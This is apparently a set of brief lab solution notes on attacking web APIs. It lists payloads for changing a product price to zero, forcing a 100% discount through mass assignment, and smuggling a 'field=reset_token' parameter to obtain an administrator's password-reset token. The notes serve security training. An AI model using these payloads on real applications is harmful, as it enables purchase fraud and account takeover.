 # API Testing

## Lab: Exploiting an API endpoint using documentation
`/api` endpoint defines APIs.


## Lab: Finding and exploiting an unused API endpoint
PATCH, `/api/products/1/price`, `{"price": 0}`



## Lab: Exploiting a mass assignment vulnerability

POST: `/api/checkout`  
```json
{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```

## Lab: Exploiting server-side parameter pollution in a query string

1. forget-password-page, a js exposed the `reset_token` field;
2. `POST /forgot-password` to exploit server parameters;
3. `&username=administrator%26field=reset_token` get the reset_token used to reset password.

